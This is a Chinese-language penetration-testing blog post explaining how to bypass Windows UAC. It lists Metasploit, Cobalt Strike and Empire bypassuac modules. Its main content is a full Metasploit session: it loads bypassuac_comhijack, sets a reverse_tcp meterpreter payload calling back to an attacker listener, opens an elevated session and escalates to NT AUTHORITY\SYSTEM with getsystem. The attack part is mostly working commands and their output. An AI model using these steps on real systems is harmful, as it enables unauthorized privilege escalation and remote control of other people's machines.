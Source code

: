 ```yaml
---
title: "Windows 绕过 UAC 策略"
date: 2019-07-12T00:00:00+08:00
draft: false
tags: ['windows','uac']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


UAC 全称 User Access Control, 其作用为在程序进行管理员权限的操作时对用户进行通知, 经确认以后方可才能继续执行操作.

如果是普通用户, UAC 会让你提供管理员用户的账号密码.

如果是管理员, 则会提醒你是否继续该操作. 这样的管理员就称作"受限管理员" (Administrator 用户除外).

<!--more-->

绕过 UAC 的方式很多, 比如 [hfiref0x/UACME](https://github.com/hfiref0x/UACME), 恕本人技术有限, 暂且先提供以下几种比较"方便"的 UAC 绕过方案.

## metasploit

msf 自带九种 bypassuac 模块.

```
exploit/windows/local/bypassuac
exploit/windows/local/bypassuac_injection_winsxs
exploit/windows/local/bypassuac_comhijack
exploit/windows/local/bypassuac_silentcleanup
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_sluihijack
exploit/windows/local/bypassuac_fodhelper
exploit/windows/local/bypassuac_vbs
exploit/windows/local/bypassuac_injection
```

其中 `bypassuac`, `bypassuac_injection` 历史久远, `bypassuac_comhijack` 目前还未修复.

以 `exploit/windows/local/bypassuac_comhijack` 为例.

```
msf5 exploit(multi/handler) > use exploit/windows/local/bypassuac_comhijack                                             msf5 exploit(windows/local/bypassuac_comhijack) > set session 1                                                         session => 1                                                                                                                                                                                                                                                                                  msf5 exploit(windows/local/bypassuac_comhijack) > set payload windows/x64/meterpreter/reverse_tcp                       payload => windows/x64/meterpreter/reverse_tcp                                                                          msf5 exploit(windows/local/bypassuac_comhijack) > set lhost 192.168.1.1                                                 lhost => 192.168.1.1                                                                                                    msf5 exploit(windows/local/bypassuac_comhijack) > run                                                                                                                                                                                           [*] Started reverse TCP handler on 192.168.1.1:4444                                                                     [*] UAC is Enabled, checking level...                                                                                   [+] Part of Administrators group! Continuing...                                                                         [+] UAC is set to Default                                                                                               [+] BypassUAC can bypass this setting, continuing...                                                                    [*] Targeting Event Viewer via HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931} ...                   [*] Uploading payload to C:\Users\test\AppData\Local\Temp\DCRQHfyu.dll ...                                              [*] Executing high integrity process ...                                                                                [*] Sending stage (206403 bytes) to 192.168.1.99                                                                        [*] Meterpreter session 2 opened (192.168.1.1:4444 -> 192.168.1.99:49164) at 2019-07-12 21:25:32 +0800                                                                                                                                          [*] Cleaining up registry ...

meterpreter > getuid
Server username: DC2\test
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM                                                                          
```

## cobalt strike

cs 自带的 bypassuac 模块与 msf 中的某些模块重复, 添加 [rsmudge/ElevateKit](https://github.com/rsmudge/ElevateKit) 工具包后新增三种 bypassuac 方式, 例如 `uac-wscript`, `uac-token` 等.

![cobaltstrike elevate bypassuac 1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/cobaltstrike_elevate_bypassuac_1.jpg)

![cobaltstrike elevate bypassuac 2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/cobaltstrike_elevate_bypassuac_2.jpg)

## empire

empire 中的部分 bypassuac 脚本还是比较新的, 不过全都是以 powershell 方式执行.

```
powershell/privesc/bypassuac
powershell/privesc/bypassuac_eventvwr
powershell/privesc/bypassuac_sdctlbypass
powershell/privesc/bypassuac_wscript
powershell/privesc/bypassuac_env
powershell/privesc/bypassuac_fodhelper
powershell/privesc/bypassuac_tokenmanipulation                                      
```

演示略.